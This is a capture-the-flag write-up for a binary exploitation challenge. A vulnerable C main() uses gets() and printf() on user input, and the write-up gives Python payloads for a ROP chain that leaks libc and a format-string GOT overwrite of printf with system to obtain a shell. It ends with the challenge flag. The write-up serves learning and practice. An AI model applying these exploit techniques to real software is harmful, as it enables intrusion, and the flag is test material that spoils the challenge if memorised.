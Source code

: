 # Return Of The ROPs
#### Description
Is ROP dead? God no. But it returns from a long awaited time, this time in a weird fashion. Three instructions ... can you pwn it?
#### Author
Tango
#### Points and solves
480 points, 55 solves.


This binary is a simpler version of pwn_inn. I recommend reading pwn_inn first before reading this one, I use some notation from pwn inn's writeup.

```c
undefined8 main(void)
{
  char local_28 [32];
  
  ignore_me_init_buffering();
  puts("What would you like to say?");
  gets(local_28);
  printf(local_28);
  return 0;
}
```

Buffer overflow and string format attack, there's nothing more we could ask for.

### Leaking libc:
```python
payload = 40*b"A" +  p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```
Simple ROP chain to leak ```puts``` address.
We don't have a libc version, so we use the website [libc database search](https://libc.nullbyte.cat/) to narrow down libc version based on known addresses.

## Getting shell:
We overwrite printf with system, in the same manner we did in pwn_inn, just instead using 3 batches, I used 2 batches and discarded the ```BBBB``` part because it's just uneccessary. (Because for both it's 0x007f.)

```python
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%13$hn" +\
		  b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%14$hn"
payload += (0x28-len(payload))*b"A" + p64(ret) + p64(elf.sym.main)
for i in range(0,2):
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```


Send this payload and get shell :)

#### Flag
```flag{w3_d0n't_n33d_n0_rdx_g4dg3t,ret2csu_15_d3_w4y_7821243}```
